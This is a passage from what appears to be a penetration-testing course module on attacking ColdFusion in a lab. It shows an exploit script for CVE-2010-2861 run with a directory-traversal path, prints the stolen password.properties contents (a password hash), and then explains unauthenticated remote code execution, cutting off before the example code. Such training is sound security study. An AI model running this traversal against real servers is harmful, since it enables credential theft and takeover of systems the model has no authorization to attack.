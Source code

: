 By providing the correct parameters to the exploit script and specifying the path of the desired file, the script can trigger an exploit on the vulnerable endpoints mentioned above. The script will then output the result of the exploit attempt:

**Coldfusion - Exploitation**

Attacking ColdFusion

```shell-session
AIceBear@htb[/htb]$ python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"

------------------------------
trying /CFIDE/wizards/common/_logintowizard.cfm
title from server in /CFIDE/wizards/common/_logintowizard.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
------------------------------
...
```

As we can see, the contents of the `password.properties` file have been retrieved, proving that this target is vulnerable to `CVE-2010-2861`.

***

### Unauthenticated RCE

Unauthenticated Remote Code Execution (`RCE`) is a type of security vulnerability that allows an attacker to `execute arbitrary code` on a vulnerable system `without requiring authentication`. This type of vulnerability can have severe consequences, as it will `enable an attacker to take complete control of the system` and potentially steal sensitive data or cause damage to the system.

The difference between a `RCE` and an `Unauthenticated Remote Code Execution` is whether or not an attacker needs to provide valid authentication credentials in order to exploit the vulnerability. An RCE vulnerability allows an attacker to execute arbitrary code on a target system, regardless of whether or not they have valid credentials. However, in many cases, RCE vulnerabilities require that the attacker already has access to some part of the system, either through a user account or other means.

In contrast, an unauthenticated RCE vulnerability allows an attacker to execute arbitrary code on a target system without any valid authentication credentials. This makes this type of vulnerability particularly dangerous, as an attacker can potentially take over a system or execute malicious commands without any barrier to entry.

In the context of ColdFusion web applications, an Unauthenticated RCE attack occurs when an attacker can execute arbitrary code on the server without requiring any authentication. This can happen when a web application allows the execution of arbitrary code through a feature or function that does not require authentication, such as a debugging console or a file upload functionality. Take the following code:

Code: html
